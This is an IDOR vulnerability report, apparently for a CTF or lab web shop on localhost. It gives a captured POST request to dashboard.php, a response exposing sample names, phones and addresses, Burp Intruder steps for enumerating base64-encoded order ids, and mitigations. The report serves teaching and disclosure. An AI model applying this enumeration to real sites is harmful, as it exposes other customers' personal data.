

# Vulnerability Report: IDOR at show order history allows an attacker to see other users order history which exposes PIIs like phone number,address. 

## Summery:

- Vulnerability Name : IDOR (Insecure Direct Object Reference)
- Vulnerability Class : Broken Access control
- CWE : CWE-639 
- Seviority : HIGH (7.1)
- CVSS Score :	CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:L/A:N 

## Description:

### IDOR (Insecure Direct Object Reference ):
An IDOR vulnerability occurs when an application exposes a reference to an internal object (like a user ID, order number, file path) without properly verifying whether the requester is authorized to access it.

### Vulnerability Description:
In this case, the web application’s order history feature uses a POST request with an id parameter to retrieve details of a specific order. The server does not validate that the order belongs to the logged-in user, allowing an attacker to manipulate the id and access another user’s order data. 

### Steps to reporduce:

Step 1: Open the following url on browser http://localhost:5555/dashboard.php (Note: Need to login first)

Step 2: Configure burp proxy to capture the following request which has PII like phone number,delivery address,etc.

> Request:
```
POST /dashboard.php HTTP/1.1
Host: localhost:5555
Content-Length: 36
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: http://localhost:5555
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:5555/dashboard.php
Accept-Encoding: gzip, deflate, br
Cookie: language=en; continueCode=g872mOLbrgjJwK7DQ9p834o2nmvd5btQGkqYRlExW6z1PeaBMNyXV5ZMWrXO; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=5616a07a69525e7bd00f5818b8637003
Connection: keep-alive


id=MTAwMQ%3D%3D&action=check_history
```

> Response:

```html
<!-- Order History -->
    <div class="col-md-10 pt-5 my-5">
        <div class="card bg-dark border border-warning text-white shadow-lg p-4 mx-4">
            <div class="mb-4 d-flex justify-content-between align-items-center">
                <h4 class="text-warning m-0">🧾 Order History</h4>
                    </div>
                        <div class="table-responsive">
                            <table class="table table-dark table-bordered border-warning align-middle text-white">
                                <thead class="text-warning">
                                    <tr>
                                        <th>#</th>
                                            <th>Product</th>
                                            <th>Qty</th>
                                            <th>Price</th>
                                            <th>Name</th>
                                            <th>Phone</th>
                                            <th>Address</th>
                                        </tr>
                                    </thead>
                                    <tbody>
                                            <tr>
                                                <td>1</td>
                                                <td>Masala Chai</td>
                                                <td>2</td>
                                                <td>₹50</td>
                                                <td>john</td>
                                                <td>9876543210</td>
                                                <td>No.13, Nageswara Rao Rd, T. Nagar, Chennai, TN 600017</td>
                                            </tr>
                                            <tr>
                                                <td>2</td>
                                                <td>Green Chai</td>
                                                <td>1</td>
                                                <td>₹45</td>
                                                <td>john</td>
                                                <td>9876543210</td>
                                                <td>No.13, Nageswara Rao Rd, T. Nagar, Chennai, TN 600017</td>
                                            </tr>
                                    </tbody>
                                </table>
                            </div>
                        </div>
                    </div>
                </div>
        </section>
    </div>
</div>
```

Step 3: Send this request to intruder and add number payload at `id` parameter and in payload processing add base64 encoding then click start atttack and see the response. (As intented ,This shows how a blind spot can cause big trouble. here it expose other users PII)

## PoC (Proof Of Concept):

<div align="center">
    <h4>Command Injection Hint:</h4>
    
</div>

## Impact:

- Unauthorized access to other customers’ personal order history.

- Possible exposure of sensitive data such as names, addresses, payment details, and flags in a CTF context.

## Mitigation:

- Implement proper authorization checks at the server side to ensure the logged-in user owns the requested order.

- Use indirect references (e.g., UUID tokens mapped internally) instead of direct numeric IDs in client-facing requests.

- Perform strict server-side validation before returning sensitive data.